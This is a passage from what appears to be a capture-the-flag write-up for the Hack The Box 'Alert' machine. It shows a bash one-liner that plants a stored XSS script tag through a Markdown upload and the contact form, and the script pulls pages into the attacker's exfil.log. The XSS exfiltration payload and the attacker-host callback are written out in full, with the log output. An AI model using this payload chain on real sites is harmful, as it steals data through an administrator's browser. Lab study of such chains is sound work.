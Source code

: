 Additionally as we might like to execute our 'browser' multiple times, it will be more handy to alias our XSS exploit.
```
┌──(magicrc㉿perun)-[~/attack/HTB Alert]
└─$ xss_browse() { curl -X POST http://alert.htb/contact.php -d "email=john.doe@server.com&message=$(curl -X POST http://alert.htb/visualizer.php -s -F "file=@-;filename=xss.md" <<< "<script src='http://$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1)/browse.php?path=$1'></script>" | grep Share | grep -oP 'href="\K[^"]+')" }; alias xss_browse='xss_browse'
```

With everything in place let's start 'remote browsing'. One remark, as in this case inbound `data` for our `exfil.php` will consist of multiple lines, thus we will run `tail -f /var/www/html/exfil.log` in dedicated terminal (`tmux` FTW!).
```
┌──(magicrc㉿perun)-[~/attack/HTB Alert]
└─$ xss_browse /index.php?page=about
```
```
┌──(magicrc㉿perun)-[/var/www/html]
└─$ tail -f /var/www/html/exfil.log
[2025-03-22 06:44:07] IP: [10.129.231.188] | User-Agent: [Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/122.0.6261.111 Safari/537.36] | Data: [<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="css/style.css">
    <title>Alert - Markdown Viewer</title>
</head>
<body>
    <nav>
        <a href="index.php?page=alert">Markdown Viewer</a>
        <a href="index.php?page=contact">Contact Us</a>
        <a href="index.php?page=about">About Us</a>
        <a href="index.php?page=donate">Donate</a>
        <a href="index.php?page=messages">Messages</a>    </nav>
    <div class="container">
        <h1>About Us</h1><p>Hello! We are Alert. Our service gives you the ability to view MarkDown. We are reliable, secure, fast and easy to use. If you experience any problems with our service, please let us know. Our administrator is in charge of reviewing contact messages and reporting errors to us, so we strive to resolve all issues within 24 hours. Thank you for using our service!</p>    </div>
    <footer>
        <p style="color: black;">© 2024 Alert. All rights reserved.</p>
    </footer>
</body>
</html>]
```

Our browser seems to be operational. At first glance content we are getting is same as for regular browser, there is however one file which might be interesting, `messages.php`. For regular browser empty response was returned, let's check XSS - CSRF chain approach.
```
┌──(magicrc㉿perun)-[~/attack/HTB Alert]
└─$ xss_browse /messages.php
```
```
[2025-03-22 06:48:23] IP: [10.129.231.188] | User-Agent: [Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/122.0.6261.111 Safari/537.36] | Data: [<h1>Messages</h1><ul><li><a href='messages.php?file=2024-03-10_15-48-34.txt'>2024-03-10_15-48-34.txt</a></li></ul>]
```
